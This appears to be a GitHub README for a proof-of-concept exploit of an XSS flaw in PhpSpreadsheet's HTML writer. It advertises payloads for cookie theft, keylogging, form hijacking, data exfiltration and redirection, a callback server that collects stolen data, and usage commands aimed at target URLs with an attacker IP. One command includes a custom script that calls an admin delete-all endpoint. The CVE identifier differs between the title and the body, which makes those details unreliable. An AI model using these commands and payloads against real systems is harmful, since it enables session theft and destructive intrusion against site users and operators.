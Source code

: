 # CVE-2025-22131 • PhpSpreadsheet HTML Writer XSS (PoC)

## Over View 
this is a PoC on the **CVE-2025-22131** , a Cross-Site Scripting (XSS) vulnerability in PhpSpreadsheet versions prior to 2.2.2, 2.1.2, and 1.29.4. The vulnerability resides in the generateNavigation() function, which fails to sanitize sheet names during XLSX-to-HTML conversion, enabling malicious JavaScript injection.

CVE ID: CVE-2024-47875

GitHub Advisory: GHSA-79xx-vf93-p7cx

Affected Versions: PhpSpreadsheet < 2.2.2, < 2.1.2, < 1.29.4

Author: Roj

License: MIT

Repository: [PoC Repo](https://github.com/roj1py/CVE-2024-47875-PhpSpreadsheet-XSS-PoC)

---
## Features
📄 Generates malicious XLSX files with customizable XSS payloads

🛠️ Supports multiple payload types:

cookie_theft: Steals session cookies

redirect: Redirects users to an attacker-controlled site

alert: Displays a test alert for PoC

keylogger: Captures keystrokes

form_hijack: Intercepts form submissions

data_exfil: Exfiltrates data from a specified endpoint

🌐 Built-in HTTP server to capture exploit callbacks

⬆️ Uploads malicious XLSX files to a target endpoint

💾 Saves captured data (e.g., cookies) to a JSON file

🎨 Colorized terminal output for enhanced readability

🔍 Verbose logging for debugging

---
## Usage
```bash
python exploit.py -h
```
🚀 Usage Examples:
```bash
#Basic cookie theft attack
python3 exploit.py http://target.htb 10.10.16.50

# Custom upload endpoint
python3 exploit.py http://app.htb 10.10.16.50 -e /api/file-upload

# Different payload types
python3 exploit.py http://target.com 10.10.16.50 -p keylogger
python3 exploit.py http://target.com 10.10.16.50 -p redirect
python3 exploit.py http://target.com 10.10.16.50 -p form_hijack

# Custom XSS payload
python3 exploit.py http://target.com 10.10.16.50 --custom "<script>fetch('/admin/delete-all')</script>"
```
---
I wich to get feedbacks , wich luck to all of you
